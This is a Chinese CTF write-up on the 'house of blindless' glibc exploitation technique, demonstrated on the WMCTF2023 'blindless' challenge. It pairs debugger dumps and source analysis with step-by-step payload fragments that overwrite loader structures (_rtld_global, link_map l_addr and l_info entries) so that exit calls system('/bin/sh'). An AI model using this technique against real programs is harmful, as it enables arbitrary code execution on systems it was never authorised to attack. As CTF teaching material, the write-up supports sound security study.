house of blindless学习利用

* * *

# house of blindless

### 前言

> 复现wm新学到的一种利用手法，实际和banana的利用有些相像

### **利用条件:**

> *   无泄露情况下可以通过偏移实现libc区域的任意写，能泄露情况下肯定不如直接打`exit_hook`​来得方便
>     
> *   程序可以结束(可显式触发`exit`​函数 或 主函数由`libc_start_main`​启动且可正常退出)，调用到`_dl_fini`​ 函数
>     

### **利用方法:**

> *   控制`_rtld_global+2312`​为rdi
> *   低位覆盖使得`l->l_info[DT_FINI]`​指向`l->l_info[DT_INIT]->d_un.d_ptr`​(也可以选择其他`Elf64_Dyn`​类型的结构体)
> *   控制`l_addr`​为`后门函数地址-l_info[DT_INIT]`​
> *   控制`l->l_info[DT_FINI_ARRAY]`​为0
> *   结束程序，调用`_dl_fini`​

另一种情况：

> 当elf地址也可以被任意写的时候
> 
> 我们直接修改`l->l_info[DT_FINI]`​即可

‍

### 源码分析：

ld.so文件中存在`rtld_global`​指针指向`rtld_global`​结构体，该结构体中存在多个`_dl_ns`​ 结构体，存储着elf各段的符号结构体

```plain
if (l->l_info[DT_FINI_ARRAY] != NULL)
{
    ElfW(Addr) *array =
    (ElfW(Addr) *) (l->l_addr
            + l->l_info[DT_FINI_ARRAY]->d_un.d_ptr);
    unsigned int i = (l->l_info[DT_FINI_ARRAYSZ]->d_un.d_val
            / sizeof (ElfW(Addr)));
    while (i-- > 0)
    ((fini_t) array[i]) ();
}
    /* Next try the old-style destructor.  */
    if (l->l_info[DT_FINI] != NULL) 
        DL_CALL_DT_FINI (l, l->l_addr + l->l_info[DT_FINI]->d_un.d_ptr);
}
```

控制`l->l_info[DT_FINI_ARRAY]`​为0，避开上面的分支，来进入下面的分支

​`l->l_addr + l->l_info[DT_FINI]->d_un.d_ptr`​

**\_rtld\_global**

```plain
pwndbg> p _rtld_global
#p _rtld_global._dl_ns[0]
$1 = {
  _dl_ns = {{
      _ns_loaded = 0x7f36620c3190,
      _ns_nloaded = 4,
      _ns_main_searchlist = 0x7f36620c3450,
      _ns_global_scope_alloc = 0,
      _ns_global_scope_pending_adds = 0,
      _ns_unique_sym_table = {
        lock = {
          mutex = {
            __data = {
              __lock = 0,
              __count = 0,
              __owner = 0,
              __nusers = 0,
              __kind = 1,
              __spins = 0,
              __elision = 0,
              __list = {
                __prev = 0x0,
                __next = 0x0
              }
            },
            __size = '\000' <repeats 16 times>, "\001", '\000' <repeats 22 times>,
            __align = 0
          }
        },
        entries = 0x0,
        size = 0,
        n_elements = 0,
        free = 0x0
      },
      _ns_debug = {
        r_version = 0,
        r_map = 0x0,
        r_brk = 0,
        r_state = RT_CONSISTENT,
        r_ldbase = 0
      }
    }, {
      _ns_loaded = 0x0,
      _ns_nloaded = 0,
      _ns_main_searchlist = 0x0,
      _ns_global_scope_alloc = 0,
      _ns_global_scope_pending_adds = 0,
      _ns_unique_sym_table = {
        lock = {
          mutex = {
            __data = {
              __lock = 0,
              __count = 0,
              __owner = 0,
              __nusers = 0,
              __kind = 0,
              __spins = 0,
              __elision = 0,
              __list = {
                __prev = 0x0,
                __next = 0x0
              }
            },
            __size = '\000' <repeats 39 times>,
            __align = 0
          }
        },
        entries = 0x0,
        size = 0,
        n_elements = 0,
        free = 0x0
      },
      _ns_debug = {
        r_version = 0,
        r_map = 0x0,
        r_brk = 0,
        r_state = RT_CONSISTENT,
        r_ldbase = 0
      }
    } <repeats 15 times>},
  _dl_nns = 1,
  _dl_load_lock = {
    mutex = {
      __data = {
        __lock = 0,
        __count = 0,
        __owner = 0,
        __nusers = 0,
        __kind = 1,
        __spins = 0,
        __elision = 0,
        __list = {
          __prev = 0x0,
          __next = 0x0
        }
      },
      __size = '\000' <repeats 16 times>, "\001", '\000' <repeats 22 times>,
      __align = 0
    }
  },
  _dl_load_write_lock = {
    mutex = {
      __data = {
        __lock = 0,
        __count = 0,
        __owner = 0,
        __nusers = 0,
        __kind = 1,
        __spins = 0,
        __elision = 0,
        __list = {
          __prev = 0x0,
          __next = 0x0
        }
      },
      __size = '\000' <repeats 16 times>, "\001", '\000' <repeats 22 times>,
      __align = 0
    }
  },
  _dl_load_adds = 4,
  _dl_initfirst = 0x0,
  _dl_profile_map = 0x0,
  _dl_num_relocations = 98,
  _dl_num_cache_relocations = 3,
  _dl_all_dirs = 0x7f36620c3cd0,
  _dl_rtld_map = {
    l_addr = 139871549734912,
    l_name = 0x55ac4ada3318 "/lib64/ld-linux-x86-64.so.2",
    l_ld = 0x7f36620c1e68,
    l_next = 0x0,
    l_prev = 0x7f3662078000,
    l_real = 0x7f36620c29e8 <_rtld_global+2440>,
    l_ns = 0,
    l_libname = 0x7f36620c3050 <_dl_rtld_libname>,
    l_info = {0x0, 0x0, 0x7f36620c1ee8, 0x7f36620c1ed8, 0x7f36620c1e78, 0x7f36620c1e98, 0x7f36620c1ea8, 0x7f36620c1f18, 0x7f36620c1f28, 0x7f36620c1f38, 0x7f36620c1eb8, 0x7f36620c1ec8, 0x0, 0x0, 0x7f36620c1e68, 0x0, 0x0, 0x0, 0x0, 0x0, 0x7f36620c1ef8, 0x0, 0x0, 0x7f36620c1f08, 0x0 <repeats 13 times>, 0x7f36620c1f58, 0x7f36620c1f48, 0x0, 0x0, 0x7f36620c1f78, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x7f36620c1f68, 0x0 <repeats 25 times>, 0x7f36620c1e88},
    l_phdr = 0x7f3662094040,
    l_entry = 0,
    l_phnum = 11,
    l_ldnum = 0,
    l_searchlist = {
      r_list = 0x0,
      r_nlist = 0
    },
    l_symbolic_searchlist = {
      r_list = 0x0,
      r_nlist = 0
    },
    l_loader = 0x0,
    l_versions = 0x7f3662078940,
    l_nversions = 6,
    l_nbuckets = 17,
    l_gnu_bitmask_idxbits = 3,
    l_gnu_shift = 8,
    l_gnu_bitmask = 0x7f36620943d8,
    {
      l_gnu_buckets = 0x7f36620943f8,
      l_chain = 0x7f36620943f8
    },
    ......
```

**\_dl\_rtld\_map**

```plain
pwndbg> p *(struct link_map*) 0x00007f36620c3190
$7 = {
  l_addr = 94198478548992,
  l_name = 0x7f36620c3730 "",
  l_ld = 0x55ac4ada6d98,
  l_next = 0x7f36620c3740,
  l_prev = 0x0,
  l_real = 0x7f36620c3190,
  l_ns = 0,
  l_libname = 0x7f36620c3718,
  l_info = {0x0, 0x55ac4ada6d98, 0x55ac4ada6e78, 0x55ac4ada6e68, 0x0, 0x55ac4ada6e18, 0x55ac4ada6e28, 0x55ac4ada6ea8, 0x55ac4ada6eb8, 0x55ac4ada6ec8, 0x55ac4ada6e38, 0x55ac4ada6e48, 0x55ac4ada6da8, 0x55ac4ada6db8, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x55ac4ada6e88, 0x55ac4ada6e58, 0x0, 0x55ac4ada6e98, 0x55ac4ada6ee8, 0x55ac4ada6dc8, 0x55ac4ada6de8, 0x55ac4ada6dd8, 0x55ac4ada6df8, 0x0, 0x55ac4ada6ed8, 0x0, 0x0, 0x0, 0x0, 0x55ac4ada6f08, 0x55ac4ada6ef8, 0x0, 0x0, 0x55ac4ada6ee8, 0x0, 0x55ac4ada6f28, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x55ac4ada6f18, 0x0 <repeats 25 times>, 0x55ac4ada6e08},
  l_phdr = 0x55ac4ada3040,
  l_entry = 94198478553376,
  l_phnum = 13,
  l_ldnum = 0,
  l_searchlist = {
    r_list = 0x7f3662078520,
    r_nlist = 3
  },
  l_symbolic_searchlist = {
    r_list = 0x7f36620c3710,
    r_nlist = 0
  },
  l_loader = 0x0,
  l_versions = 0x7f3662078540,
  l_nversions = 4,
  l_nbuckets = 2,
  l_gnu_bitmask_idxbits = 0,
  l_gnu_shift = 6,
  l_gnu_bitmask = 0x55ac4ada33b0,
  {
    l_gnu_buckets = 0x55ac4ada33b8,
    l_chain = 0x55ac4ada33b8
  },
  {
    l_gnu_chain_zero = 0x55ac4ada3390,
    l_buckets = 0x55ac4ada3390
  },
  l_direct_opencount = 1,
  l_type = lt_executable,
  l_relocated = 1,
  l_init_called = 1,
  l_global = 1,
  l_reserved = 0,
  l_phdr_allocated = 0,
  l_soname_added = 0,
  l_faked = 0,
  l_need_tls_init = 0,
  l_auditing = 0,
  l_audit_any_plt = 0,
  l_removed = 0,
  l_contiguous = 0,
  l_symbolic_in_local_scope = 0,
  l_free_initfini = 0,
  l_nodelete_active = false,
  l_nodelete_pending = false,
  l_cet = 7,
  l_rpath_dirs = {
    dirs = 0xffffffffffffffff,
    malloced = 0
  },
  ......
```

​`l_addr`​处地址为`elf_base`​

​  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230914100357-f70c96e4-52a2-1.png)  
​

`l->l_info[DT_FINI]`​处地址和`l->l_info[DT_INIT]`​仅最后一位不同

通过libc区域的任意写，可进行低位覆盖`l->l_info[DT_FINI]->l_info[DT_INIT]`​

```plain
pwndbg> p /x *_rtld_global._dl_ns[0]._ns_loaded.l_info[12]
$3 = {
  d_tag = 0xc,
  d_un = {
    d_val = 0x1000,
    d_ptr = 0x1000
  }
}
pwndbg> p /x *_rtld_global._dl_ns[0]._ns_loaded.l_info[13]
$4 = {
  d_tag = 0xd,
  d_un = {
    d_val = 0x1558,
    d_ptr = 0x1558
  }
}
```

​`l->l_info[DT_FINI]`​为0x1000，`l->l_addr`​为`elf_base`​，根据偏移对`l->l_addr`​改写即可实现`l->l_addr`​ + `l->l_info[DT_FINI]`​->`d_un.d_ptr`​最终指向我们想要执行的地址大于`elf_base+0x1000`​的函数

```plain
LOAD:0000000000003D98                               ; ELF Dynamic Information
LOAD:0000000000003D98                               ; ===========================================================================
LOAD:0000000000003D98
LOAD:0000000000003D98                               ; Segment type: Pure data
LOAD:0000000000003D98                               ; Segment permissions: Read/Write
LOAD:0000000000003D98                               LOAD segment mempage public 'DATA' use64
LOAD:0000000000003D98                               assume cs:LOAD
LOAD:0000000000003D98                               ;org 3D98h
LOAD:0000000000003D98 01 00 00 00 00 00 00 00 01 00+_DYNAMIC Elf64_Dyn <1, 1>               ; DATA XREF: LOAD:00000000000001A0↑o
LOAD:0000000000003D98 00 00 00 00 00 00                                                     ; .got:_GLOBAL_OFFSET_TABLE_↓o
LOAD:0000000000003D98                                                                       ; DT_NEEDED libc.so.6
LOAD:0000000000003DA8 0C 00 00 00 00 00 00 00 00 10+Elf64_Dyn <0Ch, 1000h>                  ; DT_INIT
LOAD:0000000000003DB8 0D 00 00 00 00 00 00 00 58 15+Elf64_Dyn <0Dh, 1558h>                  ; DT_FINI
LOAD:0000000000003DC8 19 00 00 00 00 00 00 00 88 3D+Elf64_Dyn <19h, 3D88h>                  ; DT_INIT_ARRAY
LOAD:0000000000003DD8 1B 00 00 00 00 00 00 00 08 00+Elf64_Dyn <1Bh, 8>                      ; DT_INIT_ARRAYSZ
LOAD:0000000000003DE8 1A 00 00 00 00 00 00 00 90 3D+Elf64_Dyn <1Ah, 3D90h>                  ; DT_FINI_ARRAY
LOAD:0000000000003DF8 1C 00 00 00 00 00 00 00 08 00+Elf64_Dyn <1Ch, 8>                      ; DT_FINI_ARRAYSZ
LOAD:0000000000003E08 F5 FE FF 6F 00 00 00 00 A0 03+Elf64_Dyn <6FFFFEF5h, 3A0h>             ; DT_GNU_HASH
LOAD:0000000000003E18 05 00 00 00 00 00 00 00 00 05+Elf64_Dyn <5, 500h>                     ; DT_STRTAB
LOAD:0000000000003E28 06 00 00 00 00 00 00 00 C8 03+Elf64_Dyn <6, 3C8h>                     ; DT_SYMTAB
LOAD:0000000000003E38 0A 00 00 00 00 00 00 00 BD 00+Elf64_Dyn <0Ah, 0BDh>                   ; DT_STRSZ
LOAD:0000000000003E48 0B 00 00 00 00 00 00 00 18 00+Elf64_Dyn <0Bh, 18h>                    ; DT_SYMENT
LOAD:0000000000003E58 15 00 00 00 00 00 00 00 00 00+Elf64_Dyn <15h, 0>                      ; DT_DEBUG
LOAD:0000000000003E68 03 00 00 00 00 00 00 00 88 3F+Elf64_Dyn <3, 3F88h>                    ; DT_PLTGOT
LOAD:0000000000003E78 02 00 00 00 00 00 00 00 A8 00+Elf64_Dyn <2, 0A8h>                     ; DT_PLTRELSZ
LOAD:0000000000003E88 14 00 00 00 00 00 00 00 07 00+Elf64_Dyn <14h, 7>                      ; DT_PLTREL
LOAD:0000000000003E98 17 00 00 00 00 00 00 00 C8 06+Elf64_Dyn <17h, 6C8h>                   ; DT_JMPREL
LOAD:0000000000003EA8 07 00 00 00 00 00 00 00 08 06+Elf64_Dyn <7, 608h>                     ; DT_RELA
LOAD:0000000000003EB8 08 00 00 00 00 00 00 00 C0 00+Elf64_Dyn <8, 0C0h>                     ; DT_RELASZ
LOAD:0000000000003EC8 09 00 00 00 00 00 00 00 18 00+Elf64_Dyn <9, 18h>                      ; DT_RELAENT
LOAD:0000000000003ED8 1E 00 00 00 00 00 00 00 08 00+Elf64_Dyn <1Eh, 8>                      ; DT_FLAGS
LOAD:0000000000003EE8 FB FF FF 6F 00 00 00 00 01 00+Elf64_Dyn <6FFFFFFBh, 8000001h>         ; DT_FLAGS_1
LOAD:0000000000003EF8 FE FF FF 6F 00 00 00 00 D8 05+Elf64_Dyn <6FFFFFFEh, 5D8h>             ; DT_VERNEED
LOAD:0000000000003F08 FF FF FF 6F 00 00 00 00 01 00+Elf64_Dyn <6FFFFFFFh, 1>                ; DT_VERNEEDNUM
LOAD:0000000000003F18 F0 FF FF 6F 00 00 00 00 BE 05+Elf64_Dyn <6FFFFFF0h, 5BEh>             ; DT_VERSYM
LOAD:0000000000003F28 F9 FF FF 6F 00 00 00 00 03 00+Elf64_Dyn <6FFFFFF9h, 3>                ; DT_RELACOUNT
LOAD:0000000000003F38 00 00 00 00 00 00 00 00 00 00+Elf64_Dyn <0>                           ; DT_NULL
```

当然除了`l->l_info[DT_FINI]`​，我们也可以寻找其他`Elf64_Dyn`​类型的结构体

‍

### 例题WMCTF2023-blindless

[](https://xzfile.aliyuncs.com/media/upload/picture/20230914100412-ffe44118-52a2-1.png)

##### 静态分析：

保护全开，主程序并不复杂，同时存在后门函数

```plain
int __cdecl main(int argc, const char **argv, const char **envp)
{
  size_t v4; // rdx
  unsigned int sizea; // [rsp+Ch] [rbp-14h]
  unsigned int size; // [rsp+Ch] [rbp-14h]
  char *code; // [rsp+10h] [rbp-10h]

  write(1, "Pls input the data size\n", 0x18uLL);
  sizea = readInt();
  data = malloc(sizea);
  if ( !data )
    goto LABEL_2;
  write(1, "Pls input the code size\n", 0x18uLL);
  size = readInt();
  if ( size > 0x100 )
    return -1;
  code = malloc(size);
  if ( !code )
  {
LABEL_2:
    write(1, "error\n", 6uLL);
    return -1;
  }
  v4 = strlen("Pls input your code\n");
  write(1, "Pls input your code\n", v4);
  read(0, code, size);
  executeBrainfuck(code);
  return 0;
}
```

进入readInt()函数，可发现没有对大小进行限制

也就是说当我们申请大小足够触发mmap时，会分配给我们一块libc前的区域，如果我们申请的足够大就意味这我们可以向后越界并通过executeBrainfuck()实现libc中任意写

```plain
int __cdecl readInt()
{
  char buf[32]; // [rsp+0h] [rbp-30h] BYREF
  unsigned __int64 v2; // [rsp+28h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  memset(buf, 0, sizeof(buf));
  read(0, buf, 0x20uLL);
  return atoi(buf);
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230914100426-0861db8e-52a3-1.png)

为方便记忆，我们先称mmap申请的空间基址为`mmap_base`​

查看一下executeBrainfuck()：

```plain
int executeBrainfuck(char *code)

{
  char *code-local;
  char c;
  int i;

  i = 0;
  c = *code;
  while ((i < 0x100 && (c != 'q'))) {
    if (c < 'r') {
      if (c == '@') {
        data = data + *(uint *)(code + (long)i + 1);
        i = i + 5;
      }
      else if (c < 'A') {
        if (c == '>') {
          data = data + 1;
          i = i + 1;
        }
        else if (c < '?') {
          if (c == '+') {
            data = data + 8;
            i = i + 1;
          }
          else if (c == '.') {
            *data = code[(long)i + 1];
            i = i + 2;
          }
        }
      }
    }
    c = code[i];
  }
  return 0;
}
```

通过`'@'`​指令我们可以增加data的大小，data地址为`mmap_base+0x10`​

将我们传入的偏移加到data地址上

[](https://xzfile.aliyuncs.com/media/upload/picture/20230914100435-0d5bb808-52a3-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230914100440-10570c74-52a3-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230914100445-13ad591e-52a3-1.png)

再通过`.`​来向写内容，`>`​来抬地址以此来循环写入

##### 解题思路：

> 控制`rdi(_rtld_global+2312)`​为`'/bin/sh\x00'`​
> 
> 控制`l->l_addr`​ + `l->l_info[DT_FINI]`​->`d_un.d_ptr`​最终指向`system`​
> 
> 控制`l->l_info[DT_FINI_ARRAY] = 0`​
> 
> 显式触发`exit`​函数调用`_dl_fini`​函数

##### 动态调试：

```plain
payload = b'@' + p32(argv0-0x10) + write(b'/bin/sh\x00') 
#argv0 = _rtld_global+2312 - mmap_base
#argv0即_rtld_global+2312与mmap_base的偏移
#设置rdi = _rtld_global+2312 = '/bin/sh\x00'
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230914100518-2757f424-52a3-1.png)

```plain
payload += b'@' + p32(l_addr-argv0-8) + write(p8(0xe0)) 
#l_addr+0xe0
```

​`l->l_info[DT_INIT]`​->`d_un.d_ptr`​为0x1000，我们通过低位覆盖使`l->l_info[DT_FINI]`​指向`l->l_info[DT_INIT]`​

而`l->l_addr`​=elf\_base程序基地址，`system_addr`​=elf\_base+0x10e0

也就是说我们只需要修改`l->l_addr`​储存的基地址的最低位为e0

即可控制`l->l_addr`​来使得`l->l_addr`​ + `l->l_info[DT_FINI]`​->`d_un.d_ptr`​最终指向`system`​

[](https://xzfile.aliyuncs.com/media/upload/picture/20230914100527-2cb11e96-52a3-1.png)

当前`data地址（mmap_base+argv0）`​加上`l_addr-argv0-8`​的偏移，这里`-8`​是因为我们写入`'/bin/sh\x00'`​一共抬高了8字节

[](https://xzfile.aliyuncs.com/media/upload/picture/20230914100536-31f8d92a-52a3-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230914100722-70d0a09c-52a3-1.png)

```plain
payload += b'@' + p32(dt_fini-l_addr-1) + write(p8(0xa8))
#上步操作抬高了1字节，所以-1
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230914100740-7b80c6c0-52a3-1.png)

​`l->l_info[DT_FINI]`​地址为mmap\_base+0x33e190+0xa8

​`l->l_info[DT_FINI]`​储存着`elf_base + 0x3DB8`​，`l->l_info[DT_INIT]`​储存着`elf_base + 0x3DA8`​

而我们将`l->l_info[DT_FINI]`​储存的`elf_base + 0x3DB8`​最后一位​`B8`​改为`A8`​使得

​`l->l_info[DT_FINI]=l_info[DT_INIT]`​就能实现最终指向system

[](https://xzfile.aliyuncs.com/media/upload/picture/20230914100748-805d69fa-52a3-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230914100807-8ba3cba6-52a3-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230914100812-8e988cd4-52a3-1.png)

```plain
payload += b'@' + p32(dt_fini_array-dt_fini-1) + write(p64(0)) 
#l->l_info[DT_FINI_ARRAY] = 0
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230914100822-94e5ffe0-52a3-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230914100831-9a0480dc-52a3-1.png)

```plain
payload += b'q'
#显式触发exit函数调用_dl_fini函数，进而控制程序流
```

步入exit查看

[](https://xzfile.aliyuncs.com/media/upload/picture/20230914100838-9e7470fa-52a3-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230914100844-a2123b34-52a3-1.png)

